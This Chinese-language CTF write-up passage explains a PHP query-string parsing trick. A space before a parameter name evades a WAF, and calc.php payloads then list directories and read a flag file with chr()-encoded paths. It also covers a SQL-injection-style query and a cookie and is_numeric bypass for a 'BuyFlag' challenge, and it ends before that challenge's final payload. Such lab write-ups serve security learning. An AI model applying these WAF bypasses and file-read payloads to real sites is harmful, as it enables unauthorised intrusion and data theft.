 `/news.php?%20news[id%00=42"+AND+1=0–`

上述`PHP`语句的参数`%20news[id%00`的值将存储到`$_GET["news_id"]`中。

`PHP`需要将所有参数转换为有效的变量名，因此在解析查询字符串时，它会做两件事：

> 1.删除空白符
>
> 2.将某些字符转换为下划线（包括空格）

在了解到`PHP`的字符串解析之后，我们思考一个问题，`WAF`它不让`num`参数`传入字母`，所以我们不能让`WAF文件检测到字母`，但是我们又需要传入字母来构成我们的命令，这种情况下我们该怎么对其进行绕过呢？

绕过方法

因为`num`不可以传入字母，但是我们在`num`参数之前添加一个空格，这样在`PHP`的语言特性下会`默认删除这个空格`，但是`WAF`会因为这个空格导致检测不到`num`这个参数，最终导致`WAF`被绕过。

Payload

>
> <http://node4.buuoj.cn:25591/calc.php?num=a> #被拦截
>
>
> <http://node4.buuoj.cn:25591/calc.php>? num=a #绕过WAF

```
/calc.php? num=var_dump(scandir(chr(47)))
calc.php? num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

[参考文章](https://www.cnblogs.com/sfsec/p/15205011.html)

## [极客大挑战 2019]BuyFlag

`Cookie`

更改`Cookie`中的`user`值为`1`

根据源代码的要求

```php
<!--
	~~~post money and password~~~
if (isset($_POST['password'])) {
	$password = $_POST['password'];
	if (is_numeric($password)) {
		echo "password can't be number</br>";
	}elseif ($password == 404) {
		echo "Password Right!</br>";
	}
}
-->
```

传入`password`和`money`

绕过后的`payload`
